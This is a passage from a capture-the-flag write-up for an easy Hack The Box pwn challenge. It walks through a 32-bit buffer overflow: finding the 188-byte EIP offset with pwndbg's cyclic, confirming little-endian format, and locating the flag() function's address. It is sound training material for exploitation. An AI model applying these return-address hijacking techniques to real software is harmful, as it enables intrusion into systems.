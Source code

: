 The EIP register was successfully overwritten, and the offset can now be calculated with cyclic -l 0x62616177:

pwndbg> cyclic -l 0x62616177  
188
{% endhighlight %}

Thus, 188 bytes can be passed into the buffer before the EIP register is overwritten.

### Flag() Debug

With the EIP register successfully overwritten, the next step is to control it such that it points to the flag() function. Before determining where this function lies in memory, it is imperative to first establish that this binary is in little endian format:

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/challenges/pwn/easy/you_know]  
└──╼ $file vulnvuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ab7f19bb67c16ae453d4959fba4e6841d930a6dd, for GNU/Linux 3.2.0, not stripped
{% endhighlight %}

After finding out that this binary is an LSB executable, the next step is to discover where flag() is in memory. This can be done with the info functions command within GDB:

{% highlight bash %}
pwndbg> info functions  
All defined functions:  
  
Non-debugging symbols:  
0x08049000  _init  
0x08049030  printf@plt  
0x08049040  gets@plt  
0x08049050  fgets@plt  
0x08049060  getegid@plt  
0x08049070  puts@plt  
0x08049080  exit@plt  
0x08049090  __libc_start_main@plt  
0x080490a0  setvbuf@plt  
0x080490b0  fopen@plt  
0x080490c0  setresgid@plt  
0x080490d0  _start  
0x08049110  _dl_relocate_static_pie  
0x08049120  __x86.get_pc_thunk.bx  
0x08049130  deregister_tm_clones  
0x08049170  register_tm_clones  
0x080491b0  __do_global_dtors_aux  
0x080491e0  frame_dummy  
0x080491e2  flag  
0x08049272  vuln  
0x080492b1  main  
0x08049330  __libc_csu_init  
0x08049390  __libc_csu_fini  
0x08049391  __x86.get_pc_thunk.bp  
0x08049398  _fini
{% endhighlight %}
